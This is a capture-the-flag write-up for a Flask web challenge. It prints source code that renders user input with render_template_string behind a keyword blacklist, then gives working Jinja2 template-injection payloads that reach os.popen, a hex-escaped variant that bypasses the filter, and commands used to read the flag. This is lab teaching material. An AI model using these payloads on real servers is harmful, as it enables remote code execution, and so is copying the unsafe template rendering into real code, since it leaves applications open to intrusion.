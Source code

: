 # Build-A-Website

## Description
I made a website where y'all can create your own websites! Should be considerably secure even though I'm a bit rusty with Flask.

## Files
Provided source code

## Code
### `app.py`
```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, redirect, url_for
from base64 import b64encode, b64decode

app = Flask(__name__)

@app.route('/')
def index():
  # i dont remember how to return a string in flask so
  # here goes nothing :rooNervous:
  return render_template_string(open('templates/index.html').read())

@app.route('/backend')
def backend():
  website_b64 = b64encode(request.args['content'].encode())
  return redirect(url_for('site', content=website_b64))

@app.route('/site')
def site():
  content = b64decode(request.args['content']).decode()
  #prevent xss
  blacklist = ['script', 'iframe', 'cookie', 'document', "las", "bas", "bal", ":roocursion:"] # no roocursion allowed
  for word in blacklist:
    if word in content:
      # this should scare them away
      content = "*** stack smashing detected ***: python3 terminated"
  csp = '''<head>\n<meta http-equiv="Content-Security-Policy" content="default-src 'none'">\n</head>\n'''
  return render_template_string(csp + content)
```

## Methodology
We can input any html code which on the next page will get rendered.

![web1](./web1.PNG)

![web2](./web2.PNG)

We are however forbidden to use some words. The author deliberatly uses template rendering in an unsafe manner with this method `render_template_string()`. Since flask natively uses `jinja2` as a templeting engine, we can do an `SSTI` to have `RCE`.

![web3](./web3.PNG)

![web4](./web4.PNG)

We have code exec.

## Exploit
We can use a commonly known `jinja` payload to have `rce` with this

`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

This will get blocked because there is a forbidden substring `bal` in `__globals__`. We will `hex` this string to bypass the check.

`{{request.application["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"].__builtins__.__import__('os').popen('ls').read()}}`

## Loot
`{{request.application["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"].__builtins__.__import__('os').popen('ls').read()}}`

![exploit1](./exploit1.PNG)

`{{request.application["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"].__builtins__.__import__('os').popen('cat flag.txt').read()}}`

![exploit2](./exploit2.PNG)

## Flag
**ictf{:rooYay:_:rooPOG:_:rooHappy:_:rooooooooooooooooooooooooooo:}**